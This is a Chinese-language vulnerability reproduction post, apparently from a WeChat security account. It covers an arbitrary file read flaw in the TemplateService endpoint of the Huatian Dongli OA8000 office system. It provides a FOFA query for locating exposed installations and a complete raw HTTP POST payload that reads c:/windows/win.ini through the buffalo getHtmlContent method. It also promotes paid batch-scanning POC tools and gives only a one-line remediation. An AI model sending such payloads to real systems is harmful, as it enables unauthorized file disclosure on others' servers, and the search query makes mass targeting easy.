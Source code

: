 #  华天动力OA8000办公系统TemplateService存在任意文件读取漏洞   
南风徐来  南风漏洞复现文库   2024-03-24 22:48  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 华天动力OA8000办公系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
华天动力OA8000办公系统  
## 2.漏洞描述  
  
华天动力是我国首批OA企业,是双软认证的高新技术企业,专注OA办公系统20余年,开放免费OA系统下载试用,旗下OA产品累计为37500多个客户提供高效OA办公体验,为各类政府企业提供高端高效OA系统产品,华天动力OA8000办公系统TemplateService存在任意文件读取漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
华天动力OA8000办公系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZSD2k8iaoujmhLU2sWGxWh7ojam9TD2Dcjv985XrRAic8nWQr6Sv8ejHSvicwchvqY4yia9zRuVbSkjw/640?wx_fmt=jpeg&from=appmsg "null")  
  
华天动力OA8000办公系统TemplateService存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="华天动力-OA8000"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/OAapp/bfapp/buffalo/TemplateService  
  
漏洞数据包：  
```
POST /OAapp/bfapp/buffalo/TemplateService HTTP/1.1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Host: 127.0.0.1
Content-Length: 101
Expect: 100-continue
Connection: close

<buffalo-call>
<method>getHtmlContent</method>
<string>c:/windows/win.ini</string>
</buffalo-call>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZSD2k8iaoujmhLU2sWGxWh7pzbNbLhlulPJ90gzD8m2DbYjY9icff02CBp0aMRQrROTxHibRuuDlQXA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZSD2k8iaoujmhLU2sWGxWh7JDlTPb6lD2NKUgZu4N0eZY57PzemWaMkj2RvSM7pwCTJIKmibqgCdjg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZSD2k8iaoujmhLU2sWGxWh7ljneePgic20UKn9Okic5xMQXXQoCAATgFhXlwgcBTzszQBlXAgQL8iarQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZSD2k8iaoujmhLU2sWGxWh7qicBjUzBN3Ma9UjcAwZjjM92lP0RHv82qhqehjleYkKmzXbepqYHJFw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZSD2k8iaoujmhLU2sWGxWh7my9hHclW3UsB8hYhQbvhVgZRjeicQX54YKLtWK4TC87n6tyyrqQnomg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZSD2k8iaoujmhLU2sWGxWh7w4BL5aLyTx9k4LuhMY0WD8ATJcgSicnuSdiczWtcKia8xPmdu9uIpYhEA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系官方更新补丁：https://www.oa8000.com/  
## 8.往期回顾  
  
[云时空社会化商业ERP存在shiro反序列化远程命令执行漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485877&idx=1&sn=ea8287d6d5649e82a37c22353ec0d535&chksm=974b84b2a03c0da4c91938c82cc58d28b7555eaa469a2ee0aed4e1ca152b564fed91c1f1254d&scene=21#wechat_redirect)  
  
  
[飞鱼星智能上网行为管理系统send_order接口存在远程命令执行漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485877&idx=2&sn=1d608c1e7729ce9c72a47eb23eea8fdb&chksm=974b84b2a03c0da49d6e9e688cafb8610c0bab23fcd02e3af4d2af955e2f209a7f2707dcd079&scene=21#wechat_redirect)  
  
  
  
  
